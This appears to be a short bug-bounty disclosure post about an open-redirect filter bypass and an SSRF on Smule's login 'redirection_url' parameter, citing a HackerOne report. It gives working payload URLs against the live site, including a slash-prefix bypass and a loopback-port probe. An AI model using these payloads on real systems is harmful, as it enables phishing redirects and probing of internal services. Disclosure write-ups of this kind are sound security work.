 ```yaml
---
layout: post
title: "Smule SSRF + Open Redirect bypass"
author: "ron"
tags: ["web"]
---
```


## Summary

`redirection_url=` parameter at `https://www.smule.com/user/login?redirection_url=` was vulnerable to Open redirect & SSRF attacks.

## Proof of Concept

### Open redirect

The usual method `?redirect=http://evil.com` didn't work so I found an another bypass. This bypass payload worked: **///google.com**

{% highlight markdown %}
https://www.smule.com/user/login?redirection_url=////google.com

{% endhighlight %}

### SSRF

Now, I started a listener at port 1337 and inserted payload at the vulnerable parameter:

{% highlight markdown %}
https://www.smule.com/user/login?redirection_url=////127.0.0.1:1337

{% endhighlight %}

## Report ID
https://hackerone.com/reports/771465
